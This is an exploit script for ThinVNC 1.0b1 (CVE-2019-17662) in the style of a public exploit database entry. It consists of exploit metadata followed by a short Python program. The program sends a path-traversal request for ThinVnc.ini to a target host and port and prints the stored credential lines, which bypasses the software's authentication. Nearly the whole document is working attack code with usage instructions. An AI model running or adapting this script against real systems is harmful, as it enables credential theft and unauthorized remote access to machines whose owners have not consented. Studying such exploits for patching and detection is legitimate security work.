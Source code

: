EXP
---

    # Exploit Title: ThinVNC 1.0b1 - Authentication Bypass
    # Date: 2019-10-17
    # Exploit Author: Nikhith Tumamlapalli
    # Contributor WarMarX
    # Vendor Homepage: https://sourceforge.net/projects/thinvnc/
    # Software Link: https://sourceforge.net/projects/thinvnc/files/ThinVNC_1.0b1/ThinVNC_1.0b1.zip/download
    # Version: 1.0b1
    # Tested on: Windows All Platforms
    # CVE : CVE-2019-17662

    # Description:
    # Authentication Bypass via Arbitrary File Read

    #!/usr/bin/python3

    import sys
    import os
    import requests

    def exploit(host,port):
        url = "http://" + host +":"+port+"/xyz/../../ThinVnc.ini"
        r = requests.get(url)
        body = r.text
        print(body.splitlines()[2])
        print(body.splitlines()[3])



    def main():
        if(len(sys.argv)!=3):
            print("Usage:\n{} <host> <port>\n".format(sys.argv[0]))
            print("Example:\n{} 192.168.0.10 5888")
        else:
            port = sys.argv[2]
            host = sys.argv[1]
            exploit(host,port)

    if __name__ == '__main__':
        main()
